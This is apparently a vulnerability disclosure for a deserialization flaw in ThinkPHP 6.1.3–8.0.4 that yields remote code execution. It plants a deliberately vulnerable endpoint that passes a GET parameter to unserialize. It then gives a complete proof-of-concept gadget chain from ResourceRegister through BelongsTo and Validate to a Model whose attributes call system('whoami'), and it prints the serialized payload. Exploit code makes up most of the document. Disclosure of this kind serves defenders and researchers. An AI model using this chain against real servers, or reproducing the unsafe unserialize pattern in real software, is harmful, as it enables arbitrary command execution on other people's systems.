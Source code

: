 ## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

By triggering the __call method of the Validate class



## Affects Version



Thinkphp v6.1.3 to v8.0.4

## Vulnerability certificate

php8.0.2 thinkphp v8.0.0



First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['lll']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

}
```



POC


```java
<?php

namespace think;
class Validate{

}

namespace think;

abstract class Model
{

    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $connection;
    function __construct()
    {
        $this->data["lll"]=["whoami"];
        $this->withAttr["lll"]=["system"];
        $this->json=["lll"];
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->jsonAssoc = true;

    }
}
namespace think\model\relation;
use think\model\Pivot;
use think\Validate;

class BelongsTo{
    protected $query;
    protected $parent;
    protected $foreignKey;
    function __construct(){
        $this->query=true;
        $this->parent=new Validate();
        $this->foreignKey=new Pivot();
    }

}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\relation\BelongsTo;

class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    protected $db;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new BelongsTo();
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

![image-20240912110022907](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240912110022907.png)
